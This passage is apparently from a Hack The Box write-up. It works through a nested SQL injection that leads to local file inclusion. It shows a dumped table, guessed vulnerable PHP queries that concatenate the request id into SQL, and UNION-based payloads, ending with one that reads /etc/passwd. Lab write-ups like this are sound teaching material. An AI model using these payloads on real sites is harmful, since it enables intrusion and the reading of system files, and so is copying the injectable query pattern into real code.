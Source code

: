 _`db: neddy, table: idname`_

```
Database: neddy
Table: idname
[6 entries]
+-----+-------------+----------+
| id  | name        | disabled |
+-----+-------------+----------+
| 1   | main.php    | 1        |
| 2   | about.php   | 1        |
| 3   | contact.php | 1        |
| 25  | main        | 0        |
| 465 | about       | 0        |
| 587 | contact     | 0        |
+-----+-------------+----------+
```

I think I know what's going on with the site. After the site was attacked, the administrator probably nested their SQL query to fetch the corresponding pages, and in doing so, they were hoping that it could thwart further attacks. I smell Local File Inclusion (or LFI)...

The SQL query string in `index.php` probably goes something like this.

```php
<?php
  $query  = "SELECT path from filepath where name IN ";
  $query .= "(SELECT name FROM idname WHERE id = " . $_REQUEST['id'] . ")";
?>
```

Or something along these lines...

```php
<?php
  $name = "SELECT name FROM idname WHERE id = '" . $_REQUEST['id'] . "'";
  $path = "SELECT path from filepath where name = '" . $name . "'";
?>
```

Since I couldn't get the first query structure to work, I'm assuming it's the second query structure. From the `idname` table, we know that 25, 465 and 587 corresponds to `main`, `about` and `contact` respectively. So, in order to bypass the first query and control the outcome, I'm using the following UNION-based injection:

```
' UNION ALL SELECT "contact" -- endgame
```


{% include image.html image_alt="e913b3ff.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/e913b3ff.png" %}


Now that I can control the outcome for the first query, I'm going to "nest" another UNION-based injection to bypass the second query and control the file path.

```
' UNION ALL SELECT "' UNION ALL SELECT '/etc/passwd' -- avengers" -- endgame
```


[1]: https://www.hackthebox.eu/home/machines/profile/184
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/